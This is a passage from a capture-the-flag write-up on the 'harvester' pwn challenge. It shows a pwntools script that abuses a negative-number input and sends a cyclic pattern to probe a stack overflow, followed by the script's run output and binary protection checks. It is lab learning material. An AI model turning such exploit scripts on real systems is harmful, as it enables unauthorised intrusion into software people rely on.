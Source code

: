 ```
    __stack_chk_fail();
  }
  return;
}
```
At this point, I over-enthusiastically created a script to see how long my overflow really was:
```
from pwn import *

target = process('./harvester', env={"LD_PRELOAD":"./libc.so.6"})

#target = remote('188.166.145.178', 31815)

pid = gdb.attach(target, "\nb *stare+212\nb *fight+176\n set disassembly-flavor intel\ncontinue")


elf = ELF("harvester")
libc = ELF("libc.so.6")

def inc_pie(amount):
	print(target.recvuntil(b'[4] Run'))
	target.sendline(b'2')
	print(target.recvuntil(b'Do you want to drop some? (y/n)'))
	target.sendline(b'y')
	print(target.recvuntil(b'How many do you want to drop?'))
	value = amount * -1
	target.sendline(str(value).encode()) 

inc_pie(11)

print(target.recvuntil(b'[4] Run'))
target.sendline(b'3')

print(target.recvuntil(b'Do you want to feed it?'))

payload = cyclic(200)

target.sendline(payload)

target.interactive()
```
And the result was:
```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse/harvester$ python3 harvester_writeup.py NOPTRACE
[+] Starting local process './harvester': pid 6528
[!] Skipping debug attach since context.noptrace==True
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/harvester'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/ubuntu/CTF/HTBApocalypse/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;36m\nA wild Harvester appeared \xf0\x9f\x90\xa6\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
b' \xf0\x9f\x8f\x83\n> \nYou have: 10 \xf0\x9f\xa5\xa7\n\nDo you want to drop some? (y/n)'
b'\n> \nHow many do you want to drop?'
b'\n> \nYou have: 21 \xf0\x9f\xa5\xa7\n\x1b[1;31m\x1b[1;32m\nOptions:\n\n[1] Fight \xf0\x9f\x91\x8a\t[2] Inventory \xf0\x9f\x8e\x92\n[3] Stare \xf0\x9f\x91\x80\t[4] Run'
```